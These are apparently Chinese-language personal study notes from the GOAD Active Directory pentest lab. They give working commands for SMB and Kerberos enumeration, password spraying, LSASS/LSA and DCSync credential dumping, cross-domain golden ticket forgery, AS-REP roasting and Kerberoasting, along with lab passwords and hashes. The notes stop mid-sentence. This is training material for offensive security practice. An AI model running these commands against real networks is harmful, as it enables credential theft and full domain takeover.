#### nxc的smb协议找出网段的主机

```bash
nxc smb 192.168.56.0/24
```

####  生成网段所以dns主机解析ip文件

```
 nxc smb 192.168.56.0/24 --generate-hosts-file hosts
```



## 查看密码策略，说明**这个域控允许匿名读取 LSA 密码策略**



kerberos预认证枚举用户

```bash
kerbrute --dc 192.168.56.11 userenum -d 'north.sevenkingdoms.local' goad_users.tx
```



**森林 1：`sevenkingdoms.local`**

- **KINGSLANDING** (`192.168.56.10`) → `domain:sevenkingdoms.local` → **根域 DC**

- **WINTERFELL** (`192.168.56.11`) → `domain:north.sevenkingdoms.local` → **子域 DC**

- **CASTELBLACK** (`192.168.56.22`) → `domain:north.sevenkingdoms.local` → **子域成员服务器**

**森林 2：`essos.local`**

- **MEEREEN** (`192.168.56.12`) → `domain:essos.local` → **根域 DC**

- **BRAAVOS** (`192.168.56.23`) → `domain:essos.local` → **成员服务器**

| 对比项           | **SMB**              | **LDAP**                              |
| ------------- | -------------------- | ------------------------------------- |
| **全称**        | Server Message Block | Lightweight Directory Access Protocol |
| **核心用途**      | 文件共享、打印机、远程命令、RPC    | 查询和修改目录数据库（AD 数据）                     |
| **端口**        | 445（现代）、139（旧）       | 389（明文）、636（SSL）                      |
| **在 AD 里的角色** | 横向移动、远程执行、中继攻击       | 信息收集、枚举用户/组/ACL                       |

#### 账号=密码爆破，找出那些账号和密码相同的用户，加上--continue-on-success,不然只爆破到一个有效凭证就停止了，这个工具就这样设计

```bash
nxc smb 192.168.56.11 -u goad_users.txt -p goad_users.txt --no-bruteforce --continue-on-success
```

#### 空会话枚举用户，

```bash
 nxc smb 192.168.56.0/24 -u '' -p '' --users
```



直接发现一个用户凭证

```
SMB         192.168.56.11   445    WINTERFELL       samwell.tarly                 2026-10-02 09:38:11 0       Samwell Tarly (Password : Heartsbane)
```

### 域控也有SAM数据库，只是存的东西不是主要的，只有这些，其他全放NTDS里了

### 获得立足点后开始bloodhound分析关系路径

```
 bloodhound-ce-python -d 'north.sevenkingdoms.local' -u 'samwell.tarly' -p 'Heartsbane' -dc 'winterfell.north.sevenkingdoms.local' -ns 192.168.56.11 -c ALL --zip -op north
```

-d 参数用来构造ldap的查询语句，需要域名，-dc指明去域控（主机名）那里查询ldap,  -ns 在域中通信时，用的是域名，要告诉bloodhound采集器去哪里解析这个域名。

这个-ns参数只是在域内通信用的解析服务器，工具底层原理用的kerberos等，没有调用系统的socket改自己电脑的dns解析服务器，所以要把winterfell.north.sevenkingdoms.local这个域名加入/etc/hosts的解析，不然报错

-op 输出前缀名  样子：north_20261003154932_bloodhound.zip

Global Catalog（全局编录，简称 GC） 就是"森林里的全局索引服务器"，不指定的话，涉及跨域的部分（比如跨域组成员、跨域对象引用）BloodHound 可能解析不全，单域内的数据不受影响。

这个GC在这里是DC01,kingslanding这台域控机器

刚才通过空会话枚举出了用户，现在凭证复用

```bash
nxc smb 192.168.56.0/24 -u 'samwell.tarly' -p 'Heartsbane'
```



### 都是查当前登录用户，之不过走的查询接口不同，权限也不同，一个查不出就换另一个,

|      | `--loggedon-users`     | `--reg-sessions`         |
| ---- | ---------------------- | ------------------------ |
| 底层接口 | NetWkstaUserEnum (RPC) | Remote Registry (HKU 枚举) |
| 权限要求 | 高（通常需要管理员）             | 低（普通域用户常能用）              |
| 准确性  | 高，直接给会话列表              | 间接推断，可能有遗漏/误报            |
| 典型结果 | 拒绝访问（除非有权限）            | 能查到 SID，需要再转换成用户名        |



SID

S-1-5-21-702454436-3188414910-217611538-1113
└──────────域标识部分──────────┘ └RID┘

#### --rid-brute 参数 用当前的域标识拼接RID进行爆破用户，





### 有时这个RID爆破不需要凭证也可以，anonymous或者guest都可以尝试RID爆破，前提是NULL AUTH为true

### 但是这个机子权限给的少，爆破不出

# 用有效凭据爆破



|                   | 连非域控机器                       | 连域控                              |
| ----------------- | ---------------------------- | -------------------------------- |
| `--users`（SAMR接口） | 查本机 SAM → 本机本地账号             | 查 NTDS.dit → 全域真实用户              |
| RID爆破（LSA接口）      | 查本机 SAM → 本机本地账号（含组/别名/机器账号） | 查 NTDS.dit → 全域用户+组+机器账号（不做类型过滤） |

named pipe 作为smb的功能之一,smb上有许多管道

每个管道对应一个特定的 RPC 接口(远程调用机器本地的函数)

```
SMB协议 → 命名管道（\pipe\xxx）→ RPC 数据流
```

SMB 本身的设计定位是"文件/资源共享协议"，它要**额外搭一层机制**（命名管道）才能把 RPC 这种"远程过程调用"的能力塞进去——因为 SMB 原生只会"读写文件"”连共享"，并不懂怎么调用一个远程函数。所以才需要管道这种"伪装成文件的通道"把 RPC 调用偷运进 SMB 的世界。

**named pipe 负责"把字节可靠地从 A 端送到 B 端"（纯粹的传输层），而 RPC 协议负责"这些字节该长什么样、怎么解读成一次函数调用"（应用层的语法规则）**——两者各管一层，缺一不可。你之前问的"为什么 SMB 要绕个管道才能调 RPC"，本质就是：SMB 提供了这根"管子"当运输工具，RPC 自己的那套规则则是管子两端的人"说中文还是说英文"的约定，互不替代。

管道跑在smb上，作为smb的功能之一

- **LSA** 是一个**逻辑概念**，代表“本地安全机构”这套机制。

- **LSASS**（`lsass.exe`）是 LSA 的**具体实现进程**，真正在内存里干活的就是它。



### 每拿到一个凭证就用nxc smb 扫网段，看那些机器能登录上去的

### 发现Pwn3d！标记为管理员账号，直接winrm连接上

### nxc smb

**`--lsa`**：**远程转储注册表里的 LSA Secrets 并解析*拿到的凭证**：**服务账户密码**、**自动登录密码**、**机器账户哈希**、**DPAPI 密钥**

- **关键点**：LSA Secrets 存储在注册表 `HKEY_LOCAL_MACHINE\SECURITY` 里，包含服务账户明文密码，自动登录密码（Autologon)，计算机账户密码，DPAPI密钥

**`-M lsassy`**：**远程转储并解析 LSASS 内存**

- **拿到的凭证**：服务账户明文密码、NTLM 哈希、Kerberos 票据、DPAPI 密钥。

- **关键点**：LSASS 里存着**当前或最近登录过这台机器的用户**凭证，在域控上甚至可能存着域管凭证

### LSA Secrets 注册表是干什么的

LSA Secrets 是每台 Windows 机器都有的**本地机密存储区**，路径是 `HKLM\SECURITY\Policy\Secrets`它存的是：

- **服务账户的明文密码**（因为服务需要用它来启动）[]

- **自动登录密码**（AutoLogon）

- **DPAPI 密钥**（用于解密本地保存的浏览器密码等）

这些是**这台机器运行所需要的本地机密**，和域里其他机器无关。

### LSASS 用它们来干什么

LSASS 作为 LSA 的实现进程，在运行时需要：

- 用服务账户密码来**启动服务**

- 用机器账户密码来**向域控认证自己**

- 用缓存的域凭证来**在域控不可达时允许用户登录**（DCC2 缓存）

这些操作都发生在**本地**，LSASS从LSA注册表文件加载数据（`HKLM\SECURITY`）

#### 只有域控上的 LSASS 才会从 NTDS.dit 加载全域账户



SMB 的作用是把命令送到目标，再把结果带回来

真正干转储这活的，是目标机器上 Windows 自带的组件，比如 `comsvcs.dll` 或 `MiniDumpWriteDump`

只要你在目标上有管理员权限，把 SMB 换成 WinRM 或 WMI 也能达到同样的效果

所以提供命令控制和管道传输就行了



##### 拿到凭证后去批量哈希传递，直接登进north域控（WINTERFELL）里了

- **编程里的对象**：是代码运行时在内存里创建的实例，有属性和方法，用于封装数据和行为。

- **AD 里的对象**：是数据库里的一条记录，有属性和权限，用于表示真实世界里的账户或资源。

### 在 DN 里，不同前缀代表不同含义：

| 前缀     | 全称                  | 含义             |
| ------ | ------------------- | -------------- |
| **CN** | Common Name         | 对象的名字（用户、组、容器） |
| **OU** | Organizational Unit | 组织单位（用来分部门的容器） |
| **DC** | Domain Component    | 域名的组成部分        |

- **`nxc --ntds`**：远程 DCSync，只拿哈希。

- **`secretsdump.py` 默认**：远程 DCSync，但拿的东西更多（哈希 + LSA Secrets + DPAPI 等）。

- **`secretsdump.py LOCAL`**：才是离线解析 `NTDS.dit` 文件

### `ticketer.py` 这个工具的设计逻辑是：**它只负责“签一张票据”，不负责“判断你签的是谁的票据”。**

**`-domain` 和 `-domain-sid` 决定“这张票据是谁签的、属于哪个域”；`-extra-sid` 决定“这张票据还额外声称你是谁”。** 两者配合，才能伪造出一张“子域签的、但带着根域管理员身份”的黄金票据。

`KRB5CCNAME` 就是 Kerberos 的**标准环境变量**，专门用来指定“票据缓存文件在哪”。设置它之后，所有支持 Kerberos 的工具都会**自动读取这个文件里的票据**，不用你再手动传票据路径。

    ### 制作票据

```bash
ticketer.py -nthash 'ba747c503e457513dce39ed7c3316816' -domain north.sevenkingdoms.local -domain-sid S-1-5-21-702454436-3188414910-217611538 -extra-sid S-1-5-21-163276420-1103195522-780370152-519 
用户名
```

#### 末尾的用户名只影响票据的“显示名”，真正决定根域权限的是 `-extra-sid` 里注入的根域 SID(一定要带跨域用户组的高权限RID), 用户名可以随便起，SID 不能错

#### ticketer.py这个工具默认给你加PAC ，不给两个参数，也会给你默认加上的



#### Golden Ticket原理 :

```
第1层（KDC层面）：
    KDC是"发票机",只认krbtgt密钥对不对，不管你拿票去干嘛，
    所以能拿同一张伪造的TGT，换来访问域内任意服务的ST

第2层（PAC层面）：
    你伪造TGT时就已经把身份写死成"Domain Admins"，
    这份身份在后面的用TGT换的任意ST都会继承
    所以任意服务检查PAC授权时候，都看到是高权限，
```



### 导入票据位置到环境变量

```bash
 export KRB5CCNAME=Administrator.ccache
```

### 所有调用的底层的kerberos库的工具，都会去读这个环境变量

```
klist 查看票据
kinit 申请票据
kdestroy 销毁票据
ktutil 管理密钥表
```



### 进行kerberos认证时候需要域名解析否则报错

[Errno Connection error (SEVENKINGDOMS.LOCAL:88)] [Errno -3] Temporary failure in name resolution

**Kerberos 认域名不认 IP。** 票据里全是域名，认证时必须能解析这些域名才能找到 KDC

### 信任关系在这里起了什么作用

信任关系让根域控**承认**子域控签发的认证会话。所以：

- 子域认证的会话，在根域控看来是**合法的已认证会话**。

- 根域控的 LSA 接口对这个会话**不做域归属检查**，只做会话有效性检查。

- 所以子域用户能通过 LSA 接口查根域信息。

## 所以lookupsid.py先要向子域认证，然后因为信任关系，根域直接放行，去查lsa的接口爆破

@后面跟ip会报错，找不到服务，因为要用这个域名+服务类型做spn（cifs.域名）,给域控找服务，连上smb才能远程调用lsarpc接口爆破

- `@` 后面——永远是"你要查的那台机器"，查域账号就填域控，查本地账号就填那台具体的机器
- `domain/` 前面——**只跟你的认证身份有关，跟你要查什么无关**：本地密码认证就填目标自己的主机名（或留空），Kerberos票据认证就填你票据的 Realm

构造的spn 

```bash
lookupsid.py -k -no-pass north.sevenkingdoms.local/administrator@kingslanding.sevenkingdoms.local 5000
```

```
secretsdump.py -k -no-pass north.sevenkingdoms.local/Administrator@kingslanding.sevenkingdoms.local
```

###### 用哪个域签发的票（north.sevenkingdoms.local），

用哪个身份的票（Administrator / bob，随便叫）
打算连去哪台机器（kingslanding.sevenkingdoms.local）

**NTLM 用 IP 就能连，因为它不走 KDC、不依赖 SPN。Kerberos 用 IP 会失败，因为它必须用 FQDN 构造 SPN 去问 KDC**





抓包分析，显示过滤

```
(ip.addr==192.168.56.10 or ip.addr==192.168.56.11) and (kerberos or smb2 or smb)
```

AS 只负责"从无到有"签发第一张 TGT；只要你手上已经有票（不管是正常登录来的，还是像你这次直接伪造/加载的），之后不管换什么票——本域服务票、跨域引荐票、甚至再往下一层的根域服务票——**全部走 TGS，没有例外**



域控也有SAM数据库，只是存的东西不是主要的，只有这些，其他全放NTDS里了





54包



64包



                    【客户端】
                        │
                        │  1. 持有子域TGT，向子域控申请ST
                        ▼
                【子域控 (north.sevenkingdoms.local)】
                        │
                        │  2. 验证子域 TGT，发现目标服务在根域
                        │
                        │  3. 用【信任密钥】加密部分内容，
                        │     签发一张 Inter-Realm TGT（跨域引荐票据）
                        ▼
                    【客户端】
                        │
                        │  4. 拿着 Inter-Realm TGT，向根域控请求根域服务
                        ▼
                【根域控 (sevenkingdoms.local)】
                        │
                        │  5. 用【信任密钥】解密并验证身份
                        │  6. 读取票据里的 PAC（SID、组信息）
                        │  7. 做授权检查，然后返回ST
                        ▼
                    【客户端】
                        │
                        │  8. 拿到根域服务的 ST，访问根域资源
                        ▼
                    【根域资源】

直接和对方域控通



```bash
lookupsid.py -domain-sids north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.12
```

#### 练习不需要预认证

```bash
GetNPUsers.py north.sevenkingdoms.local/ -usersfile goad_users.txt -no-pass -dc-ip 192.168.56.11 -outputfile hashcat.txt
```

#### 用字典去试，向域控请求TGT,没有预认证的用户，dc会直接返回你TGT,TGT里有部分是这个用户的密码hash

#### 默认输出到文本的格式是hashcat能识别的模式

#### 开始破解

```bash
hashcat -m 18200 ~/hashcat.txt ~/Desktop/rockyou.txt
```

**AS-REP 用 18200，Kerberoast 用 13100，普通 NTLM 用 1000**

普通NTLM是SAM或者NTDS里的hash

#### kerberoasting 攻击

```bash
GetUserSPNs.py north.sevenkingdoms.local/brandon.stark:iseedeadpeople -dc-ip 192.168.56.11 -outputfile north.ST.hash
```

拿到任意一个域内的用户凭据后，可以获得被krbtgt账户签名的TGT,TGS需要再用这个密钥解密这个签名，才能给你ST票据,这个ST票据的一部分是用服务的spn账户密码哈希加密的，当你拿票据去访问服务时候，服务会再用spn的密码hash解密ST,然后查看ST上的PAC给你授权



```bash
hashcat -m 13100 north.ST.hash Desktop/rockyou.txt
```

jon.snow   :  iknownothing

##### 之前看到两个成员服务器的smb签名是关闭的，所以现在进行poisoning和relay攻击

**SMB 签名保护“文件共享”，LDAP 签名保护“目录服务**

在实验室中，有两名机器人用于模拟 LLMRN、MDNS 和 NBT-NS 请求。其中一个用户的密码较弱，但没有管理权限。另一个用户拥有管理权限，但使用的密码却很强大。

```bash
 nxc ldap 192.168.56.0/24 -u '' -p ''
```

根域和子域的ldap签名和

